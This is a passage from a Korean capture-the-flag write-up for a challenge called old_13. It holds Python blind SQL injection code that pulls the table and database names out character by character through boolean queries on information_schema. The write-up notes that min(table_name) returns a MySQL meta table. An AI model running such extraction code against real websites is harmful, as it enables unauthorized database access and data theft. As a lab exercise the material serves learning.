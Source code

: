 ```python
        print("Table Name's Length:", self.table_length)
    
    def getTableName(self):
        tmp_str = ""
        for i in range(1, self.table_length + 1):
            for letter in string.printable:
                # Result: CHARACTER_SETS
                query = f"if((select(ord(substr(min(table_name),{i},1)))from(information_schema.tables))in({ord(letter)}),1,0)"
                resp = requests.get(self.url + query)
                print(letter)
                if self.true_factor in resp.text:
                    tmp_str += letter
                    print("Found", letter)
                    break
        
        self.table_name = tmp_str
        print(self.table_name)
```
테이블의 길이와 이름을 알아내기 위해서 2개의 함수를 구현했다.<br />
MySQL의 metadata를 담고있는 information_schema를 이용했다. 하지만 해당 코드를 실행해보면 테이블의 길이로 14가 출력되고 이름은 "CHARACTER_SETS"이라고 출력된다.<br />
해당 테이블의 이름은 정상적인 이름이 아니라 MySQL이 기본적으로 가지고있는 메타 테이블 이름이기에 잘못된 정보를 얻어온 셈이다.<br />

함수를 잘 보면 `min(table_name)`을 사용하고 있는데 문자열을 대상으로 min() 연산을 수행하면 맨 앞글자의 사전적 우선순위를 따지기 때문에 정확한 방식은 아니다.<br />
혹시나 해서 max를 이용해 보아도 또 다른 메타테이블이 나올 뿐이다. 무엇이 됐든 특정 table_name을 지정하여 쿼리를 수행해야 하기 때문에 이러한 방식을 채택한 것인데 min, max 말고 다른 방안을 떠올려야 한다.<br />

더 많은 정보가 필요하기 때문에 DB 이름을 알아내는 함수가 필요할 것 같다.
#### DB 이름의 길이 알아내기
```python
 def getDBNameLength(self):
	for i in range(1, 100):
		query = f"if(length(database())in({i}),1,0)"
		resp = requests.get(self.url + query)
		if self.true_factor in resp.text:
			self.db_length = i
			break
	
	print("DB Name's Length:", self.db_length)
```
이러한 클래스를 하나 만들어주고 `getDBNameLength()` 함수를 호출해주면 길이가 7이라는 것을 알 수 있다.
#### DB 이름 알아내기
```python
def getdbname(self):
	temp_str = ""
	for i in range(1, self.db_length + 1):
		for letter in string.printable:
			print(letter)
			query = f"if(ord(substr(database(),{str(i)},1))in({ord(letter)}),1,0)"
			print(query)
			resp = requests.get(self.url + query)
			if self.true_factor in resp.text:
				print("found", letter)
				temp_str += letter
				break
	
	self.db_name = temp_str
	print("db name:", self.db_name)
```
이제 길이가 7이란걸 알아냈으니 해당 정보를 바탕으로 한 글자 한 글자 반복을 돌아주면서 Blind SQLI를 수행하는 코드를 작성했다.<br />
결과로 chall13이 출력되는 것이 확인된다. 지금 푸는 문제가 old_13번이기에 해당 DB 이름이 수상해보이는 것이 당연하다.<br />